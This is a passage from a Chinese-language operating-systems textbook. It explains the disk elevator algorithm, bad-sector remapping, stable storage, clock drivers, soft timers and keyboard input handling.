然而，大多数电梯使用一种不同的算法来协调效率和公平性这两个相互冲突的目标。电梯保持按一个方向移动，直到在那个方向上没有请求为止，然后改变方向。这个算法在磁盘世界和电梯世界都被称为电梯算法（elevator algorithm），它需要软件维护一个二进制位，即当前方向位：UP（向上）或是DOWN（向下）。当一个请求处理完之后，磁盘或电梯的驱动程序检查该位，如果是UP，磁盘臂或电梯舱移至下一个更高的未完成的请求。如果更高的位置没有未完成的请求，则方向位取反。当方向位设置为DOWN时，同时存在一个低位置的请求，则移向该位置。
图5-29显示了使用与图5-28相同的7个请求的电梯算法的情况。假设方向位初始为UP，则各柱面获得服务的顺序是12、16、34、36、9和1，磁盘臂分别移动1、4、18、2、27和8个柱面，总共移动60个柱面。在本例中，电梯算法比SSF还要稍微好一点，尽管通常它不如SSF。电梯算法的一个优良特性是对任意的一组给定请求，磁盘臂移动总次数的上界是固定的：正好是柱面数的两倍。
对这个算法稍加改进可以在响应时间上具有更小的变异（Teory，1972），方法是总是按相同的方向进行扫描。当处理完最高编号柱面上未完成的请求之后，磁盘臂移动到具有未完成的请求的最低编号的柱面，然后继续沿向上的方向移动。实际上，这相当于将最低编号的柱面看作是最高编号的柱面之上的相邻柱面。
某些磁盘控制器提供了一种方法供软件检查磁头下方的当前扇区号。对于这种磁盘控制器，还可以进行另一种优化。如果针对同一柱面有两个或多个请求正等待处理，驱动程序可以发出请求读写下一次要通过磁头的扇区。注意，当一个柱面有多条磁道时，相继的请求可能针对不同的磁道，故没有任何代价。因为选择磁头既不需要移动磁盘臂也没有旋转延迟，所以控制器几乎可以立即选择任意磁头。
如果磁盘具有寻道时间比旋转延迟快很多的特性，那么应该使用不同的优化策略。未完成的请求应该按扇区号排序，并且当下一个扇区就要通过磁头的时候，磁盘臂应该飞快地移动到正确的磁道上对其进行读或者写。
对于现代硬盘，寻道和旋转延迟是如此影响性能，所以一次只读取一个或两个扇区的效率是非常低下的。由于这个原因，许多磁盘控制器总是读出多个扇区并对其进行高速缓存，即使只请求一个扇区时也是如此。典型地，读一个扇区的任何请求将导致该扇区和当前磁道的多个或者所有剩余的扇区被读出，读出的扇区数取决于控制器的高速缓存中有多少可用的空间。例如，在图5-18所描述的磁盘中有4MB的高速缓存。高速缓存的使用是由控制器动态地决定的。在最简单的模式下，高速缓存被分成两个区段，一个用于读，一个用于写。如果后来的读操作可以用控制器的高速缓存来满足，那么就可以立即返回被请求的数据。
值得注意的是，磁盘控制器的高速缓存完全独立于操作系统的高速缓存。控制器的高速缓存通常保存还没有实际被请求的块，但是这对于读操作是很便利的，因为它们只是作为某些其他读操作的附带效应而恰巧要在磁头下通过。与之相反，操作系统所维护的任何高速缓存由显式地读出的块组成，并且操作系统认为它们在较近的将来可能再次需要（例如，保存目录块的一个磁盘块）。
当同一个控制器上有多个驱动器时，操作系统应该为每个驱动器都单独地维护一个未完成的请求表。一旦任何一个驱动器空闲下来，就应该发出一个寻道请求将磁盘臂移到下一个将被请求的柱面处（假设控制器允许重叠寻道）。当前传输结束时，将检查是否有驱动器的磁盘臂位于正确的柱面上。如果存在一个或多个这样的驱动器，则在磁盘臂已经位于正确柱面处的驱动器上开始下一次传输。如果没有驱动器的磁盘臂处于正确的位置，则驱动程序在刚刚完成传输的驱动器上发出一个新的寻道命令并且等待，直到下一次中断到来时检查哪一个磁盘臂首先到达了目标位置。
上面所有的磁盘调度算法都是默认地假设实际磁盘的几何规格与虚拟几何规格相同，认识到这一点十分重要。如果不是这样，那么调度磁盘请求就毫无意义，因为操作系统实际上不能断定柱面40与柱面200哪一个与柱面39更接近。另一方面，如果磁盘控制器能够接收多个未完成的请求，它就可以在内部使用这些调度算法。在这样的情况下，算法仍然是有效的，但是低了一个层次，局限在控制器内部。
磁盘制造商通过不断地加大线性位密度而持续地推进技术的极限。在一块5.25英寸的磁盘上，处于中间位置的一个磁道大约有300mm的周长。如果该磁道存放300个512字节的扇区，考虑到由于前导码、ECC和扇区间隙而损失了部分空间这样的实际情况，线性记录密度大约是5000b/mm。记录5000b/mm需要极其均匀的基片和非常精细的氧化物涂层。但是，按照这样的规范制造磁盘而没有瑕疵是不可能的。一旦制造技术改进到一种程度，即在那样的密度下能够无瑕疵地操作，磁盘设计者就会转到更高的密度以增加容量。这样做可能会再次引入瑕疵。
制造时的瑕疵会引入坏扇区，也就是说，扇区不能正确地读回刚刚写到其上的值。如果瑕疵非常小，比如说只有几位，那么使用坏扇区并且每次只是让ECC校正错误是可能的。如果瑕疵较大，那么错误就不可能被掩盖。
对于坏块存在两种一般的处理方法：在控制器中对它们进行处理或者在操作系统中对它们进行处理。在前一种方法中，磁盘在从工厂出厂之前要进行测试，并且将一个坏扇区列表写在磁盘上。对于每一个坏扇区，用一个备用扇区替换它。
有两种方法进行这样的替换。在图5-30a中，我们看到单个磁盘磁道，它具有30个数据扇区和两个备用扇区。扇区7是有瑕疵的。控制器所能够做的事情是将备用扇区之一重映射为扇区7，如图5-30b所示。另一种方法是将所有扇区向上移动一个扇区，如图5-30c所示。在这两种情况下，控制器都必须知道哪个扇区是哪个扇区。它可以通过内部的表来跟踪这一信息（每个磁道一张表），或者通过重写前导码来给出重映射的扇区号。如果是重写前导码，那么图5-30c的方法就要做更多的工作（因为23个前导码必须重写），但是最终会提供更好的性能，因为整个磁道仍然可以在旋转一周中读出。
驱动器安装之后在正常工作期间也会出现错误。在遇到ECC不能处理的错误时，第一道防线只是试图再次读。某些读错误是瞬时性的，也就是说是由磁头下的灰尘导致的，在第二次尝试时错误就消失了。如果控制器注意到它在某个扇区遇到重复性的错误，那么可以在该扇区完全死掉之前切换到一个备用扇区。这样就不会丢失数据并且操作系统和用户甚至都不会注意到这一问题。通常使用的是图5-30b的方法，因为其他扇区此刻可能包含数据。而使用图5-30c的方法则不但要重写前导码，还要复制所有的数据。
前面我们曾说过存在两种一般的处理错误的方法：在控制器中或者在操作系统中处理错误。如果控制器不具有像我们已经讨论过的那样透明地重映射扇区的能力，那么操作系统必须在软件中做同样的事情。这意味着操作系统必须首先获得一个坏扇区列表，或者是通过从磁盘中读出该列表，或者只是由它自己测试整个磁盘。一旦操作系统知道哪些扇区是坏的，它就可以建立重映射表。如果操作系统想使用图5-30c的方法，它就必须将扇区7到扇区29中的数据向上移动一个扇区。
如果由操作系统处理重映射，那么它必须确保坏扇区不出现在任何文件中，并且不出现在空闲列表或位图中。做到这一点的一种方法是创建一个包含所有坏扇区的秘密的文件。如果该文件不被加入文件系统，用户就不会意外地读到它（或者更糟糕地，释放它）。
然而，还存在另一个问题：备份。如果磁盘是一个文件一个文件地做备份，那么非常重要的是备份实用程序不去尝试复制坏块文件。为了防止发生这样的事情，操作系统必须很好地隐藏坏块文件，以至于备份实用程序也不能发现它。如果磁盘是一个扇区一个扇区地做备份而不是一个文件一个文件地做备份，那么在备份期间防止读错误是十分困难的，如果不是不可能的话。惟一的希望是备份程序具有足够的智能，在读失败10次后放弃并且继续下一个扇区。
坏扇区不是惟一的错误来源，也可能发生磁盘臂中的机械故障引起的寻道错误。控制器内部跟踪着磁盘臂的位置，为了执行寻道，它发出一系列脉冲给磁盘臂电机，每个柱面一个脉冲，这样将磁盘臂移到新的柱面。当磁盘臂移到其目标位置时，控制器从下一个扇区的前导码中读出实际的柱面号。如果磁盘臂在错误的位置上，则发生寻道错误。
大多数硬盘控制器可以自动纠正寻道错误，但是大多数软盘控制器（包括Pentium的）只是设置一个错误标志位而把余下的工作留给驱动程序。驱动程序对这一错误的处理办法是发出一个recalibrate（重新校准）命令，让磁盘臂尽可能地向最外面移动，并将控制器内部的当前柱面重置为0。通常这样就可以解决问题了。如果还不行，则只好修理驱动器。
正如我们已经看到的，控制器实际是一个专用的小计算机，它有软件、变量、缓冲区，偶尔还出现故障。有时一个不寻常的事件序列，例如一个驱动器发生中断的同时另一个驱动器发出recalibrate命令，就可能引发一个故障，导致控制器陷入一个循环或失去对正在做的工作的跟踪。控制器的设计者通常考虑到最坏的情形，在芯片上提供了一个引脚，当该引脚被置起时，迫使控制器忘记它正在做的任何事情并且将其自身复位。如果其他方法都失败了，磁盘驱动程序可以设置一个控制位以触发该信号，将控制器复位。如果还不成功，驱动程序所能做的就是打印一条消息并且放弃。
重新校准一块磁盘会发出古怪的噪音，但是正常工作时并不让人烦扰。然而，存在这样一种情形，对于具有实时约束的系统而言重新校准是一个严重的问题。当从硬盘播放视频时，或者当将文件从硬盘烧录到CD-ROM上时，来自硬盘的位流以均匀的速率到达是必需的。在这样的情况下，重新校准会在位流中插入间隙，因此是不可接受的。称为AV盘（Audio Visual disk，音视盘）的特殊驱动器永远不会重新校准，因而可用于这样的应用。
正如我们已经看到的，磁盘有时会出现错误。好扇区可能突然变成坏扇区，整个驱动器也可能出乎意料地死掉。RAID可以对几个扇区出错或者整个驱动器崩溃提供保护。然而，RAID首先不能对将坏数据写下的写错误提供保护，并且也不能对写操作期间的崩溃提供保护，这样就会破坏原始数据而不能以更新的数据替换它们。
对于某些应用而言，决不丢失或破坏数据是绝对必要的，即使面临磁盘和CPU错误也是如此。理想的情况是，磁盘应该始终没有错误地工作。但是，这是做不到的。所能够做到的是，一个磁盘子系统具有如下特性：当一个写命令发给它时，磁盘要么正确地写数据，要么什么也不做，让现有的数据完整无缺地留下。这样的系统称为稳定存储器（stable storage），并且是在软件中实现的（Lampson和Sturgis，1979）。目标是不惜一切代价保持磁盘的一致性。下面我们将描述这种最初思想的一个微小的变体。
在描述算法之前，重要的是对于可能发生的错误有一个清晰的模型。该模型假设在磁盘写一个块（一个或多个扇区）时，写操作要么是正确的，要么是错误的，并且该错误可以在随后的读操作中通过检查ECC域的值检测出来。原则上，保证错误检测是根本不可能的，这是因为，假如使用一个16字节的ECC域保护一个512字节的扇区，那么存在着24096 个数据值而仅有2144 个ECC值。因此，如果一个块在写操作期间出现错误但是ECC没有出错，那么存在着几亿亿个错误的组合可以产生相同的ECC。如果某些这样的错误出现，则错误不会被检测到。大体上，随机数据具有正确的16字节ECC的概率大约是2-144 。该概率值足够小以至于我们可以视其为零，尽管它实际上并不为零。
该模型还假设一个被正确写入的扇区可能会自发地变坏并且变得不可读。然而，该假设是：这样的事件非常少见，以至于在合理的时间间隔内（例如1天）让相同的扇区在第二个（独立的）驱动器上变坏的概率小到可以忽略的程度。
该模型还假设CPU可能出故障，在这样的情况下只能停机。在出现故障的时刻任何处于进行中的磁盘写操作也会停止，导致不正确的数据写在一个扇区中并且后来可能会检测到不正确的ECC。在所有这些情况下，稳定存储器就写操作而言可以提供100%的可靠性，要么就正确地工作，要么就让旧的数据原封不动。当然，它不能对物理灾难提供保护，例如，发生地震，计算机跌落100m掉入一个裂缝并且陷入沸腾的岩浆池中，在这样的情况下用软件将其恢复是勉为其难的。
稳定存储器使用一对完全相同的磁盘，对应的块一同工作以形成一个无差错的块。当不存在错误时，在两个驱动器上对应的块是相同的，读取任意一个都可以得到相同的结果。为了达到这一目的，定义了下述三种操作：
1)稳定写（stable write）。稳定写首先将块写到驱动器1上，然后将其读回以校验写的是正确的。如果写的不正确，那么就再次做写和重读操作，一直到n次，直到正常为止。经过n次连续的失败之后，就将该块重映射到一个备用块上，并且重复写和重读操作直到成功为止，无论要尝试多少个备用块。在对驱动器1的写成功之后，对驱动器2上对应的块进行写和重读，如果需要的话就重复这样的操作，直到最后成功为止。如果不存在CPU崩溃，那么当稳定写完成后，块就正确地被写到两个驱动器上，并且在两个驱动器上得到校验。
2)稳定读（stable read）。稳定读首先从驱动器l上读取块。如果这一操作产生错误的ECC，则再次尝试读操作，一直到n次。如果所有这些操作都给出错误的ECC，则从驱动器2上读取对应的数据块。给定一个成功的稳定写为数据块留下两个可靠的副本这样的事实，并且我们假设在合理的时间间隔内相同的块在两个驱动器上自发地变坏的概率可以忽略不计，那么稳定读就总是成功的。
3)崩溃恢复（crash recovery）。崩溃之后，恢复程序扫描两个磁盘，比较对应的块。如果一对块都是好的并且是相同的，就什么都不做。如果其中一个具有ECC错误，那么坏块就用对应的好块来覆盖。如果一对块都是好的但是不相同，那么就将驱动器1上的块写到驱动器2上。
如果不存在CPU崩溃，那么这一方法总是可行的，因为稳定写总是对每个块写下两个有效的副本，并且假设自发的错误决不会在相同的时刻发生在两个对应的块上。如果在稳定写期间出现CPU崩溃会怎么样？这就取决于崩溃发生的精确时间。有5种可能性，如图5-31所示。
在图5-31a中，CPU崩溃发生在写块的两个副本之前。在恢复的时候，什么都不用修改而旧的值将继续存在，这是允许的。
在图5-31b中，CPU崩溃发生在写驱动器1期间，破坏了该块的内容。然而恢复程序能够检测出这一错误，并且从驱动器2恢复驱动器1上的块。因此，这一崩溃的影响被消除并且旧的状态完全被恢复。
在图5-31c中，CPU崩溃发生在写完驱动器1之后但是还没有写驱动器2之前。此时已经过了无法复原的时刻：恢复程序将块从驱动器1复制到驱动器2上。写是成功的。
图5-31d与图5-31b相类似：在恢复期间用好的块覆盖坏的块。不同的是，两个块的最终取值都是新的。
最后，在图5-31e中，恢复程序看到两个块是相同的，所以什么都不用修改并且在此处写也是成功的。
对于这一模式进行各种各样的优化和改进都是可能的。首先，在崩溃之后对所有的块两个两个地进行比较是可行的，但是代价高昂。一个巨大的改进是在稳定写期间跟踪被写的是哪个块，这样在恢复的时候必须被检验的块就只有一个。某些计算机拥有少量的非易失性RAM（nonvolatile RAM），它是一个特殊的CMOS存储器，由锂电池供电。这样的电池能够维持很多年，甚至有可能是计算机的整个生命周期。与主存不同（它在崩溃之后就丢失了），非易失性RAM在崩溃之后并不丢失。每天的时间通常就保存在这里（并且通过一个特殊的电路进行增值），这就是为什么计算机即使在拔掉电源之后仍然知道是什么时间。
假设非易失性RAM的几个字节可供操作系统使用，稳定写就可以在开始写之前将准备要更新的块的编号放到非易失性RAM里。在成功地完成稳定写之后，在非易失性RAM中的块编号用一个无效的块编号（例如-1）覆盖掉。在这些情形下，崩溃之后恢复程序可以检验非易失性RAM以了解在崩溃期间是否有一个稳定写正在进行中，如果是的话，还可以了解在崩溃发生的时候被写的是哪一个块。然后，可以对块的两个副本进行正确性和一致性检验。
如果没有非易失性RAM可用，可以对它模拟如下。在稳定写开始时，用将要被稳定写的块的编号覆盖驱动器1上的一个固定的块，然后读回该块以对其进行校验。在使得该块正确之后，对驱动器2上对应的块进行写和校验。当稳定写正确地完成时，用一个无效的块编号覆盖两个块并进行校验。这样一来，崩溃之后就很容易确定在崩溃期间是否有一个稳定写正在进行中。当然，这一技术为了写一个稳定的块需要8次额外的磁盘操作，所以应该极少量地应用该技术。
还有最后一点值得讨论。我们假设每天每一对块只发生一个好块自发损坏成为坏块。如果经过足够长的时间，另一个块也可能变坏。因此，为了修复任何损害每天必须对两块磁盘进行一次完整的扫描。这样，每天早晨两块磁盘总是一模一样的。即便在一个时期内一对中的两个块都坏了，所有的错误也都能正确地修复。
时钟（clock）又称为定时器（timer），由于各种各样的原因决定了它对于任何多道程序设计系统的操作都是至关重要的。时钟负责维护时间，并且防止一个进程垄断CPU，此外还有其他的功能。时钟软件可以采用设备驱动程序的形式，尽管时钟既不像磁盘那样是一个块设备，也不像鼠标那样是一个字符设备。我们对时钟的研究将遵循与前面几节相同的模式：首先考虑时钟硬件，然后考虑时钟软件。
在计算机里通常使用两种类型的时钟，这两种类型的时钟与人们使用的钟表和手表有相当大的差异。比较简单的时钟被连接到110V或220V的电源线上，这样每个电压周期产生一个中断，频率是50Hz或60Hz。这些时钟过去曾经占据统治地位，但是如今却非常罕见。
另一种类型的时钟由三个部件构成：晶体振荡器、计数器和存储寄存器，如图5-32所示。当把一块石英晶体适当地切割并且安装在一定的压力之下时，它就可以产生非常精确的周期性信号，典型的频率范围是几百兆赫兹，具体的频率值与所选的晶体有关。使用电子器件可以将这一基础信号乘以一个小的整数来获得高达1000MHz甚至更高的频率。在任何一台计算机里通常都可以找到至少一个这样的电路，它给计算机的各种电路提供同步信号。该信号被送到计数器，使其递减计数至0。当计数器变为0时，产生一个CPU中断。
可编程时钟通常具有几种操作模式。在一次完成模式（one-shot mode）下，当时钟启动时，它把存储寄存器的值复制到计数器中，然后，来自晶体的每一个脉冲使计数器减1。当计数器变为0时，产生一个中断，并停止工作，直到软件再一次显式地启动它。在方波模式（square-wave mode）下，当计数器变为0并且产生中断之后，存储寄存器的值自动复制到计数器中，并且整个过程无限期地再次重复下去。这些周期性的中断称为时钟滴答（clock tick）。
可编程时钟的优点是其中断频率可以由软件控制。如果采用500MHz的晶体，那么计数器将每隔2ns脉动一次。对于（无符号）32位寄存器，中断可以被编程为从2ns时间间隔发生一次到8.6s时间间隔发生一次。可编程时钟芯片通常包含两个或三个独立的可编程时钟，并且还具有许多其他选项（例如，用正计时代替倒计时、屏蔽中断等）。
为了防止计算机的电源被切断时丢失当前时间，大多数计算机具有一个由电池供电的备份时钟，它是由在数字手表中使用的那种类型的低功耗电路实现的。电池时钟可以在系统启动的时候读出。如果不存在备份时钟，软件可能会向用户询问当前日期和时间。对于一个连入网络的系统而言还有一种从远程主机获取当前时间的标准方法。无论是哪种情况，当前时间都要像UNIX所做的那样转换成自1970年1月1日上午12时UTC（Universal Time Coordinated，协调世界时，以前称为格林威治平均时）以来的时钟滴答数，或者转换成自某个其他标准时间以来的时钟滴答数。Windows的时间原点是1980年1月1日。每一次时钟滴答都使实际时间增加一个计数。通常会提供实用程序来手工设置系统时钟和备份时钟，并且使两个时钟保持同步。
时钟硬件所做的全部工作是根据已知的时间间隔产生中断。涉及时间的其他所有工作都必须由软件——时钟驱动程序完成。时钟驱动程序的确切任务因操作系统而异，但通常包括下面的大多数任务：
1)维护日时间。
2)防止进程超时运行。
3)对CPU的使用情况记账。
4)处理用户进程提出的alarm系统调用。
5)为系统本身的各个部分提供监视定时器。
6)完成概要剖析、监视和统计信息收集。
时钟的第一个功能是维持正确的日时间，也称为实际时间（real time），这并不难实现，只需要如前面提到的那样在每个时钟滴答将计数器加1即可。惟一要当心的事情是日时间计数器的位数，对于一个频率为60Hz的时钟来说，32位的计数器仅仅超过2年就会溢出。很显然，系统不可能在32位中按照自1970年1月1日以来的时钟滴答数来保存实际时间。
可以采取三种方法来解决这一问题。第一种方法是使用一个64位的计数器，但这样做使维护计数器的代价很高，因为1秒内需要做很多次维护计数器的工作。第二种方法是以秒为单位维护日时间，而不是以时钟滴答为单位，该方法使用一个辅助计数器来对时钟滴答计数，直到累计完整的一秒。因为232 秒超过了136年，所以该方法可以工作到22世纪。
第三种方法是对时钟滴答计数，但是这一计数工作是相对于系统引导的时间，而不是相对于一个固定的外部时间。当读入备份时钟或者用户输入实际时间时，系统引导时间就从当前日时间开始计算，并且以任何方便的形式存放在内存中。以后，当请求日时间时，存储的日时间值加到计数器上就可以得到当前的日时间。所有这三种方法如图5-33所示。
时钟的第二个功能是防止进程超时运行。每当启动一个进程时，调度程序就将一个计数器初始化为以时钟滴答为单位的该进程时间片的取值。每次时钟中断时，时钟驱动程序将时间片计数器减1。当计数器变为0时，时钟驱动程序调用调度程序以激活另一个进程。
时钟的第三个功能是CPU记账。最精确的记账方法是，每当一个进程启动时，便启动一个不同于主系统定时器的辅助定时器。当进程终止时，读出这个定时器的值就可以知道该进程运行了多长时间。为了正确地记账，当中断发生时应该将辅助定时器保存起来，中断结束后再将其恢复。
一个不太精确但更加简单的记账方法是在一个全局变量中维护一个指针，该指针指向进程表中当前运行的进程的表项。在每一个时钟滴答，使当前进程的表项中的一个域加1。通过这一方法，每个时钟滴答由在该滴答时刻运行的进程“付费”。这一策略的一个小问题是：如果在一个进程运行过程中多次发生中断，即使该进程没有做多少工作，它仍然要为整个滴答付费。由于在中断期间恰当地对CPU进行记账的方法代价过于昂贵，因此很少使用。
在许多系统中，进程可以请求操作系统在一定的时间间隔之后向它报警。警报通常是信号、中断、消息或者类似的东西。需要这类报警的一个应用是网络，当一个数据包在一定时间间隔之内没有被确认时，该数据包必须重发。另一个应用是计算机辅助教学，如果学生在一定时间内没有响应，就告诉他答案。
如果时钟驱动程序拥有足够的时钟，它就可以为每个请求设置一个单独的时钟。如果不是这样的情况，它就必须用一个物理时钟来模拟多个虚拟时钟。一种方法是维护一张表，将所有未完成的定时器的信号时刻记入表中，还要维护一个变量给出下一个信号的时刻。每当日时间更新时，时钟驱动程序进行检查以了解最近的信号是否已经发生。如果是的话，则在表中搜索下一个要发生的信号的时刻。
如果预期有许多信号，那么通过在一个链表中把所有未完成的时钟请求按时间排序链接在一起，这样来模拟多个时钟则更为有效，如图5-34所示。链表中的每个表项指出在前一个信号之后等待多少时钟滴答引发下一个信号。在本例中，等待处理的信号对应的时钟滴答分别是4203、4207、4213、4215和4216。
在图5-34中，经过3个时钟滴答发生下一个中断。每一次滴答时，下一个信号减1，当它变为0时，就引发与链表中第一个表项相对应的信号，并将这一表项从链表中删除，然后将下一个信号设置为现在处于链表头的表项的取值，在本例中是4。
注意在时钟中断期间，时钟驱动程序要做几件事情——将实际时间增1，将时间片减1并检查它是否为0，对CPU记账，以及将报警计数器减1。然而，因为这些操作在每一秒之中要重复许多次，所以每个操作都必须仔细地安排以加快速度。
操作系统的组成部分也需要设置定时器，这些定时器被称为监视定时器（watchdog timer） [1] 。例如，为了避免磨损介质和磁头，软盘在不使用时是不旋转的。当数据需要从软盘读出时，电机必须首先启动。只有当软盘以全速旋转时，I/O才可以开始。当一个进程试图从一个空闲的软盘读取数据时，软盘驱动程序启动电机然后设置一个监视定时器以便在足够长的时间间隔之后引发一个中断（因为不存在来自软盘本身的达到速度的中断）。
时钟驱动程序用来处理监视定时器的机制和用于用户信号的机制是相同的。惟一的区别是当一个定时器时间到时，时钟驱动程序将调用一个由调用者提供的过程，而不是引发一个信号。这个过程是调用者代码的一部分。被调用的过程可以做任何需要做的工作，甚至可以引发一个中断，但是在内核之中中断通常是不方便的并且信号也不存在。这就是为什么要提供监视定时器机制。值得注意的是，只有当时钟驱动程序与被调用的过程处于相同的地址空间时，监视定时器机制才起作用。
时钟最后要做的事情是剖析（profiling）。某些操作系统提供了一种机制，通过该机制用户程序可以让系统构造它的程序计数器的一个直方图，这样它就可以了解时间花在了什么地方。当剖析是可能的事情时，在每一时钟滴答驱动程序都要检查当前进程是否正在被进行剖析，如果是，则计算对应于当前程序计数器的区间（bin） [2] 号（一段地址范围），然后将该区间的值加1。这一机制也可用来对系统本身进行剖析。
大多数计算机拥有辅助可编程时钟，可以设置它以程序需要的任何速率引发定时器中断。该定时器是主系统定时器以外的，而主系统定时器的功能已经在上面讲述了。只要中断频率比较低，将这个辅助定时器用于应用程序特定的目的就不存在任何问题。但是当应用程序特定的定时器的频率非常高时，麻烦就来了。下面我们将简要描述一个基于软件的定时器模式，它在许多情况下性能良好，甚至在相当高的频率下也是如此。这一思想起因于（Aron和Druschel，1999）。关于更详细的细节，请参阅他们的论文。
一般而言，有两种方法管理I/O：中断和轮询。中断具有较低的等待时间，也就是说，它们在事件本身之后立即发生，具有很少的延迟或者没有延迟。另一方面，对于现代CPU而言，由于需要上下文切换以及对于流水线、TLB和高速缓存的影响，中断具有相当大的开销。
替代中断的是让应用程序对它本身期待的事件进行轮询。这样做避免了中断，但是可能存在相当长的等待时间，因为一个事件可能正好发生在一次轮询之后，在这种情况下它就要等待几乎整个轮询间隔。平均而言，等待时间是轮询间隔的一半。
对于某些应用而言，中断的开销和轮询的等待时间都是不能接受的。例如，考虑一个高性能的网络，如千兆位以太网。该网络能够每12µs接收或者发送一个全长的数据包。为了以优化的输出性能运行，每隔12µs就应该发出一个数据包。
达到这一速率的一种方法是当一个数据包传输完成时引发一个中断，或者将辅助定时器设置为每12µs中断一次。问题是在一个300 MHz的Pentium II计算机上该中断经实测要花费4.45µs的时间（Aron和Druschel，1999）。这样的开销比20世纪70年代的计算机好不了多少。例如，在大多数小型机上，一个中断要占用4个总线周期：将程序计数器和PSW压入堆栈并且加载一个新的程序计数器和PSW。现如今涉及流水线、MMU、TLB和高速缓存，更是增加了大量的开销。这些影响可能在时间上使情况变得更坏而不是变得更好，因此抵消了更快的时钟速率。
软定时器（soft timer）避免了中断。无论何时当内核因某种其他原因在运行时，在它返回到用户态之前，它都要检查实时时钟以了解软定时器是否到期。如果这个定时器已经到期，则执行被调度的事件（例如，传送数据包或者检查到来的数据包），而无需切换到内核态，因为系统已经在内核态。在完成工作之后，软定时器被复位以便再次闹响。要做的全部工作是将当前时钟值复制给定时器并且将超时间隔加上。
软定时器随着因为其他原因进入内核的频率而脉动。这些原因包括：
1)系统调用。
2)TLB未命中。
3)页面故障。
4)I/O中断。
5)CPU变成空闲。
为了了解这些事件发生得有多频繁，Aron和Druschel对于几种CPU负载进行了测量，包括全负载Web服务器、具有计算约束后台作业的Web服务器、从因特网上播放实时音频以及重编译UNIX内核。进入内核的平均进入率在2µs到1µs之间变化，其中大约一半是系统调用。因此，对于一阶近似，让一个软定时器每隔2µs闹响一次是可行的，虽然这样做偶尔会错过最终时限。对于发送数据包或者轮询到来的数据包这样的应用而言，有时可能晚10µs比让中断消耗35%的CPU时间要好。
当然，可能有一段时间不存在系统调用、TLB未命中或页面故障，在这些情况下，没有软定时器会闹响。为了在这些时间间隔上设置一个最大值，可以将辅助硬件定时器设置为每隔一定时间（例如1ms）闹响一次。如果应用程序对于偶然的时间间隔能够忍受每秒只有1000个数据包，那么软定时器和低频硬件定时器的组合可能比纯粹的中断驱动I/O或者纯粹的轮询要好。
每台通用计算机都配有一个键盘和一个监视器（并且通常还有一只鼠标），使人们可以与之交互。尽管键盘和监视器在技术上是独立的设备，但是它们紧密地一同工作。在大型机上，通常存在许多远程用户，每个用户拥有一个设备，该设备包括一个键盘和一个连在一起的显示器作为一个单位。这些设备在历史上被称为终端（terminal）。人们通常继续使用该术语，即便是讨论个人计算机时（主要是因为缺乏更好的术语）。
用户输入主要来自键盘和鼠标，所以我们要了解它们。在个人计算机上，键盘包含一个嵌入式微处理器，该微处理器通过一个特殊的串行端口与主板上的控制芯片通信（尽管键盘越来越多地连接到USB端口上）。每当一个键被按下的时候都会产生一个中断，并且每当一个键被释放的时候还会产生第二个中断。在发生每个这样的键盘中断时，键盘驱动程序都要从与键盘相关联的I/O端口提取信息，以了解发生了什么事情。其他的一切事情都是在软件中发生的，在相当大的程度上独立于硬件。
当想象往shell窗口（命令行界面）键入命令时，可以更好地理解本小节余下的大部分内容。这是程序员通常的工作方式。我们将在下面讨论图形界面。
1.键盘软件
I/O端口中的数字是键编号，称为扫描码（scan code），而不是ASCII码。键盘所拥有的键不超过128个，所以只需7个位表示键编号。当键按下时，第8位设置为0，当键释放时，第8位设置为1。跟踪每个键的状态（按下或弹起）是驱动程序的任务。
例如，当A键被按下时，扫描码（30）被写入一个I/O寄存器。驱动程序应该负责确定键入的是小写字母、大写字母、CTRL-A、ALT-A、CTRL-ALT-A还是某些其他组合。由于驱动程序可以断定哪些键已经按下但是还没有被释放（例如SHIFT），所以它拥有足够多的信息来做这一工作。
例如，击键序列
按下SHIFT，按下A，释放A，释放SHIFT
指示的是大写字母A。然而击键序列
按下SHIFT，按下A，释放SHIFT，释放A
指示的也是大写字母A。尽管该键盘接口将所有的负担都加在软件上，但是却极其灵活。例如，用户程序可能对刚刚键入的一个数字是来自顶端的一排键还是来自边上的数字键盘感兴趣。原则上，驱动程序能够提供这一信息。
键盘驱动程序可以采纳两种可能的处理方法。在第一种处理方法中，驱动程序的工作只是接收输入并且不加修改地向上层传送。这样，从键盘读数据的程序得到的是ASCII码的原始序列。（向用户程序提供扫描码过于原始，并且高度地依赖于机器。）
这种处理方法非常适合于像emacs那样的复杂屏幕编辑器的需要，它允许用户对任意字符或字符序列施加任意的动作。然而，这意味着如果用户键入的是dste而不是date，为了修改错误而键入三个退格键和ate，然后是一个回车键，那么提供给用户程序的是键入的全部11个ASCII码，如下所示：
dste ← ← ← ate CR
并非所有的程序都想要这么多的细节，它们常常只想要校正后的输入，而不是如何产生它的准确的序列。这一认识导致了第二种处理方法：键盘驱动程序处理全部行内编辑，并且只将校正后的行传送给用户程序。第一种处理方法是面向字符的；第二种处理方法是面向行的。最初它们分别被称为原始模式（raw mode）和加工模式（cooked mode）。POSIX标准使用稍欠生动的术语规范模式（canonical mode）来描述面向行的模式。非规范模式（noncanonical mode）与原始模式是等价的，尽管终端行为的许多细节可能被修改了。POSIX兼容的系统提供了若干库函数，支持选择这两种模式中的一种并且修改许多参数。
如果键盘处于规范（加工）模式，则字符必须存储起来直到积累完整的一行，因为用户随后可能决定删除一行中的一部分。即使键盘处于原始模式，程序也可能尚未请求输入，所以字符也必须缓冲起来以便允许用户提前键入。可以使用专用的缓冲区，或者缓冲区也可以从池中分配。前者对提前键入提出了固定的限制，后者则没有。当用户在shell窗口（Windows的命令行窗口）中击键并且刚刚发出一条尚未完成的命令（例如编译）时，将引起尖锐的问题。后继键入的字符必须被缓冲，因为shell还没有准备好读它们。那些不允许用户提前键入的系统设计者应该被涂柏油、粘羽毛 [1] ，或者更加严重的惩罚是，强迫他们使用他们自己设计的系统。
虽然键盘与监视器在逻辑上是两个独立的设备，但是很多用户已经习惯于看到他们刚刚键入的字符出现在屏幕上。这个过程叫做回显（echoing）。
当用户正在击键的时候程序可能正在写屏幕，这一事实使回显变得错综复杂（请再一次想象在shell窗口中击键）。最起码，键盘驱动程序必须解决在什么地方放置新键入的字符而不被程序的输出所覆盖。
当超过80个字符必须在具有80字符行（或某个其他数字）的窗口中显示时，也使回显变得错综复杂。根据应用程序，折行到下一行可能是适宜的。某些驱动程序只是通过丢弃超出80列的所有字符而将每行截断到80个字符。
另一个问题是制表符的处理。通常由驱动程序来计算光标当前定位在什么位置，它既要考虑程序的输出又要考虑回显的输出，并且要计算要回显的正确的空格个数。
